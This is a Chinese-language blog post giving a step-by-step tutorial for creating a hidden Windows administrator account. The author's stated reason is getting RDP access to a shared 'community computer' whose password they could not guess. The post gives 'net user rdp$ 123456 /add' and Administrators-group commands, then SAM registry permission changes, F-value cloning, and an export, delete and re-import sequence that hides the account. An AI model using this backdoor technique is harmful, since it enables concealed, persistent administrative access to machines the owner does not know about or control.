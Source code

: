 ```yaml
---
title: Windows创建隐藏管理员账户
date: 2022-01-25 17:49:13
tags: 
    - Windows
---
```


## 前言

本来是想直接用Administrator来登录RDP的, 奈何实在猜不到社区电脑的密码，只会自己动手整一个隐藏账户了。

## 新建用户账户

按 `Win` + `R` 打开运行窗口，输入熟悉的 `cmd` 并回车。

![CMD](wt.png)

一口气执行以下命令
```cmd
    net user rdp$ 123456 /add
    net localgroup Administrators rdp$ /add

    {rdp$} 可切换为你中意的其他用户名
```
如果一切正常的话，你输完一句底下就应该蹦一句 `命令成功完成`。如果没有? 请检查你的输入。

>   淦！我把我的用户名输错了，我现在想删除账户怎么办？  
    请将 `net user rdp$ 123456 /add` 中的 `/add` 改为 `/del`并执行

## 隐藏的前期准备

再召唤一次运行窗口，这次输入 `regedit`。然后在左边的导航窗口内一路找到 `HKEY_LOCAL_MACHINE\SAM\SAM`。

你可能会疑惑这 `SAM` 底下就只有一个默认键值，其他什么都没有。  
所以，在 `SAM` 上按右键（第二个 `SAM`

![regeditperm](regeditperm.png)

点击 `权限`，在新弹出的窗口中把你现在账户（大概率是Administrator 的 `完全控制` 和 `读取` 给勾上。接着点确定，最后把注册表编辑器重启。你就可以看到 `SAM` 的内容了。

## 开始隐藏

`SAM` 内长这个样子：

![reglist](reglist.png)

在 `Names` 文件夹下找到你新创建的账户名称，点一下并记下窗口右边的默认值的类型（即`0x1f4`之类的）。再以相同方式记下你不想隐藏或要保留的账户的类型值。  

现在你应该记住两个类型值，并且能够分清楚哪个类型值对应哪个账户。

在 `Users` 文件夹下找到这两个类型值所对应的文件夹名称（如`000001F4`）  

打开你想要保留的账户的类型值所对应的文件夹，找到里面的`F`值，双击打开，之后像这样 全部复制

![binvalue](binvalue.png)

在打开你想要隐藏的账户的类型值所对应的文件夹，找到里面的`F`值，双击打开，像刚刚那样。全部粘贴进去。

### 好，目前隐藏账户的工作已经完成一半了

接下来将对着你想要隐藏的账户的类型值所对应的文件夹（形似`000001XX`）按右键，选择导出。  
（别放奇奇怪怪的位置一会还要用到  
对于 `Names` 下的要隐藏的账户文件夹（即你创建的那个用户名）也是一样要导出的。

切换到命令提示符，将先前创建好的账户删掉。（不会请重新阅读以上部分  
最后找到导出的两个 `reg` 文件，双击它们重新导入。

### 完成！

参考链接：  
[1] https://www.w3xue.com/exp/article/20192/22237.html